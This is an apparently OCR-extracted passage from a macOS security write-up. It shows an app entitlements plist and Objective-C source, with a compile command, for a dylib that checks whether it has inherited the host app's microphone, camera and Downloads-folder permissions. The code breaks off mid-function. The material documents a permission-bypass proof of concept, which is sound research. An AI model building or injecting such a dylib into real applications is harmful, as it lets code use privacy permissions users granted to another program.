 ```bash
      <array>
        <string>com.apple.mail.compose</string>
      </array>
    </dict>
    <key>com.apple.security.temporary-exception.files.absolute-path.read-only</key>
    <array>
      <string>/Library/TeX/</string>
      <string>/usr/local/</string>
    </array>
    <key>keychain-access-groups</key>
    <array>
      <string>2G98R5QYU5.*</string>
    </array>
  </dict>
</plist>
```

2. Create a custom dylib to verify access to the microphone, camera, and Downloads folder. The code is as follows：

```c
//Compile Commands gcc -dynamiclib -framework Foundation -framework AVFoundation wps.m -o wps.dylib 

#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

@interface TCCPermissionChecker : NSObject

+ (BOOL)hasMicrophoneAccess;
+ (BOOL)hasCameraAccess;
+ (BOOL)hasDownloadsAccess;

@end

@implementation TCCPermissionChecker

+ (BOOL)hasMicrophoneAccess {
    AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeAudio];
    if (status == AVAuthorizationStatusAuthorized) {
        NSLog(@"[+] 具备麦克风访问权限。");
        return YES;
    } else {
        NSLog(@"[-] 不具备麦克风访问权限。");
        return NO;
    }
}

+ (BOOL)hasCameraAccess {
    AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeVideo];
    if (status == AVAuthorizationStatusAuthorized) {
        NSLog(@"[+] Camera access permission");
        return YES;
    } else {
        NSLog(@"[-] No Camera access permission");
        return NO;
    }
}

+ (BOOL)hasDownloadsAccess {
    NSString *command = @"ls -lO /Users/adler/Downloads";
    NSTask *task = [[NSTask alloc] init];
```